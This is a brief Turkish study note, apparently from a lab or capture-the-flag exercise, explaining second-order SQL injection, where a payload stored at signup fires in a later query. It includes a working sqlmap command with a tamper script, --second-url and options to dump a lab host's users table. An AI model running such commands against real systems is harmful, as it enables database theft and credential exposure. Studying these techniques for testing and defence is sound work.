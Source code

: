 SQL payloadını veritabanında bir yerlere enjekte edip oradan sonra başka bir bölgede ortaya çıkmasına denir.

Örnek Senaryo :

kullanıcı adına x şeklinde bir kullanıcı oluşturup kullanıcının bilgilerinin çekildiği bir sql sorgusuna o kullanıcı adını enjekte edilebiliyor.


### SQLmapde bu şekilde kullanılabilir.
--second-url : 
--
URL'e uygulandıktan sonra ziyaret edilmesi gereken URL i belirtir 

```bash
sqlmap --tamper tamper/so-tamper.py 
--url http://10.10.1.134:5000/challenge4/signup 
--data "username=admin&password=asd" 
--second-url http://10.10.1.134:5000/challenge4/notes -p username 
--dbms=sqlite 
--technique=U 
--no-cast -T users --dump
